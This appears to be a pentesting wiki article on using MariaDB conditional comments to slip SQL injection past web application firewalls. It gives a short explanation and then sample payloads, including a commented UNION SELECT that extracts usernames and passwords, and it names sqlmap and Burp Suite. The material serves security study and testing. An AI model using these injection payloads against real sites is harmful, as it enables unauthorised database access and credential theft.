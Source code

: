 ```yaml
---
title: MariaDB Conditional Comments for WAF Bypass
description: Learn how to use conditional comments in MariaDB to bypass WAFs during
  SQL injection attacks.
keywords:
- conditional comments
- MariaDB
- WAF bypass
- SQL injection
- version control
- execution comments
- cybersecurity
---
```


# Conditional Comments

## Context

This article focuses on using conditional comments within SQL queries to bypass Web Application Firewalls (WAFs) during SQL injection attacks on MariaDB databases. It assumes the reader is familiar with SQL comments, conditional logic, and general MariaDB WAF bypass techniques.

## Theory

### Conditional Comments in SQL

Conditional comments are special types of SQL comments that execute certain code based on the specific database server version. Typically used for compatibility between different versions of SQL servers, they can be leveraged to bypass web application firewalls by embedding executable code within these comments, making it harder for WAFs to detect them.

### MariaDB Version Control with Comments

MariaDB processes comments according to the server version, allowing certain SQL code to be conditionally executed. This functionality is particularly valuable in creating SQL injections that are stealthy and specifically targeted. By embedding SQL logic within comments, one can ensure that the logic only executes on particular versions of MariaDB, enhancing the effectiveness of the injection while avoiding detection by security mechanisms.

### Execution Comments

Execution comments are a form of conditional comments where the embedded SQL code is executed based on server version conditions. For instance, a comment like `/*!50000 SELECT * FROM users */` would only be executed if the MariaDB version is 5.0.0 or higher. This technique allows attackers to embed seemingly innocuous comments that, under specific conditions, execute potentially malicious SQL code.

## Practice

### Using Conditional Comments for WAF Bypass

To effectively use conditional comments for bypassing WAFs, follow these steps:

- **Execute Query for MariaDB Version 5.0.0 or Higher**

    ```bash
    SELECT /*!50000 1,2,3*/ FROM dual;
    ```

    This query executes only if the MariaDB version is 5.0.0 or higher, allowing for version-specific logic to be embedded within SQL queries.

- **Execute Query for MariaDB Version 4.0.0 or Higher**

    ```bash
    SELECT /*!40000 1,2,3*/ FROM dual;
    ```

    Similar to the previous step, but for an older version, this enables backward compatibility and targeted attacks on older systems.

- **Embed UNION SELECT in a Conditional Comment**

    ```sql
    /*!50000 UNION SELECT username, password FROM users */
    ```

    By embedding the `UNION SELECT` statement in a comment, this query can effectively bypass WAF input validations, which often do not evaluate or block content hidden in comments.

Upon successful execution, these methods are expected to bypass WAF rules and retrieve data without triggering security defenses.

## Tools

- **sqlmap**
- **Burp Suite** 

These tools are quintessential for testing and deploying SQL injection attacks, particularly when experimenting with conditional comments to bypass WAFs effectively.